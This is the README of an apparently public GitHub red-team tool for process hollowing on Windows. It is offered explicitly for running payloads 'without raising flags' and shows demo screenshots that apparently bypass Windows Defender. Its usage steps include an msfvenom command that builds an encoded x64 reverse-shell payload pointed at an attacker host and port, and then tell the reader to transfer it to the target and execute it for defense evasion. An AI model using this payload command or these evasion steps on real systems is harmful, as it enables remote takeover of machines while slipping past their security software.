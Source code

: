 # Process-Hollowing-RedTeamOps
## Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for researching about required Windows API and functionality.

2. Visual Studio Code - Linux and Windows.

3. Cross-compiler.
4. Process-Hollowing Technique working.

5. Deep-imagination .
6. Error-handling.
7. Programming Skills.
8. Time.
9. Defeating Failures.
10. Tons of Research.
11. Dedication.
12. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

## :warning: Note - Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > > shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly your work to do as per your operation's requirement and the other one's? - WE'LL HANDLE!!!**
  
  ***3. Transfer Both Payload and Binary to Target System.***
  
  *4. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
  **5. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
  ***6. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***
  
